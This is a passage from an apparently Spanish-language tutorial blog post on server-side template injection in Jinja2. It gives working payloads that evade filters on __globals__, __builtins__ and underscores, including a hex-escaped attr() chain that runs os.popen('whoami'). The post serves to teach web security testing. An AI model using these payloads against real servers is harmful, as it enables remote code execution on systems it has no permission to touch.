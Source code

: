 ### RCE evadiendo filtros

En ocasiones puede que los payloads anteriores no se esten ejecutando por que se puede estar filtrando \_\_globals__ o \_\_builtins__, y aqui es donde ```attr()``` llega a salvar el dia, tenemos este payload:

![](/assets/img/UPDWP-ssti/payload_filtros.png)

```request``` tiene representa a la peticion, y tiene toda la informacion de esta(parametros), y ```attr()``` permite acceder directemante a un atributo u objeto que se le indique dentro de los parentesis, y en este caso esta accediendo a ```builtins```, por que tiene las funciones incorporadas de python, y con esto, simplemente le decimos que importe el modulo ```os``` y ejecute el comando ```date```, ojo, esto no llega a funcionar siempre.

Y bueno, te dejo otros payloads para evadir filtros.

#### Bypass de \_\_class__ y _

Tomando en cuenta de que ```request``` tiene acceso a todos los parametros que fueron enviados, se puede usar "request.args.param" para recuperar el valor del parametro que viene por GET: \{\{request[request.args.param]}}&parametroVulnerable=\_\_class__


#### Bypass todo en uno

<code>&{&{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('whoami')|attr('read')()}}</code>

(no pude supe bien como escapar toda la cadena, asi que quitenle los dos ampersan que estan entre las dos llaves del inicio)

#### Referencias
[https://portswigger.net/web-security/server-side-template-injection](https://portswigger.net/web-security/server-side-template-injection)

[https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

[https://www.youtube.com/watch?v=SN6EVIG4c-0](https://www.youtube.com/watch?v=SN6EVIG4c-0)

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)


Eso ha sido todo, gracias por leer ❤